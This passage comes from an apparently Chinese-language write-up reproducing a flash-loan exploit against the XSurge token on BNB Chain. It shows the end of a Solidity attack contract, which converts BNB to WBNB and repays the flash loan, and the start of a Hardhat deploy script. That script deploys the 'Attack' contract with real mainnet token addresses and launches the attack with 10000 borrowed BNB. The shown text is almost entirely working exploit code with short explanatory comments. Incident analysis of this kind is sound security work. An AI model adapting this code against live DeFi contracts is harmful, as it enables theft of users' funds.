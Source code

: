 ```
                    address(this).balance,
                    IWBNB(payable(WBNB)).balanceOf(address(this)));
        payable(WBNB).call{value:address(this).balance}("");
        console.log("[Compelete...]BNB-> WBNB:%s->%s",
                    address(this).balance,
                    IWBNB(payable(WBNB)).balanceOf(address(this)));
        // 归还闪电贷。0.3% fees
        uint fee = ((amount * 3) / 997) + 1;
        uint amountToRepay = amount + fee;
        console.log("return %s WBNB(amountToRepay:%s) flashloan...Cur constract WBNB balance:%s\n",
                    amount/1 ether,
                    amountToRepay/1 ether,
                    IERC20(WBNB).balanceOf(address(this))/1 ether);
        IERC20(tokenBorrow).transfer(pair, amountToRepay);

        console.log("[Filnal...]AttackContract WBNB blance:%s, xsurge balance:%s, balance:%s\n",
                    IERC20(WBNB).balanceOf(address(this))/1 ether,
                    IERC20(surgeTokenAddr).balanceOf(address(this)),
                    address(this).balance);

    }
}
```

## 4.3 deploy.ts

脚本的主要功能为部署攻击合约，调用攻击合约。

```
import { ethers } from "hardhat";
import hre from "hardhat";
import "@nomicfoundation/hardhat-chai-matchers";
import { BigNumber } from "ethers";

async function main() {

  const ERC20ABI = require("@uniswap/v2-core/build/ERC20.json").abi;
  const WBNB = "0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c";
  const XSurgeTokenAddr = "0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21";

  let borrowAmount = ethers.BigNumber.from("10000000000000000000000"); // 使用10000个BNB攻击
  // let borrowAmount = ethers.BigNumber.from("2000000000000000000000"); // 2000个BNB
  // let borrowAmount = ethers.BigNumber.from("1000000000000000000000"); // 1000个BNB,可用来模拟入不敷出的场景

  // 1.部署AttackContract
  const Attack = await ethers.getContractFactory("Attack");
  var attackContract = await Attack.deploy();
  await attackContract.deployed();

  var Alice;
  [Alice] =await hre.ethers.getSigners();
  // 2.调用攻击合约的闪电贷
  const WBNBContract = new ethers.Contract(WBNB, ERC20ABI, Alice);
  const XSurgeContract = new ethers.Contract(XSurgeTokenAddr, ERC20ABI, Alice);

  console.log("[Before Attack.....]AttackContract xsurge balance:%s ether, WBNB balance:%s ether, BNB balance:%s ether\n",
              ethers.utils.formatEther(await XSurgeContract.balanceOf(attackContract.address)),
              ethers.utils.formatEther(await WBNBContract.balanceOf(attackContract.address)),
              ethers.utils.formatEther(await attackContract.provider.getBalance(attackContract.address)));

  console.log("attackContract startAttack flahloan.....");
```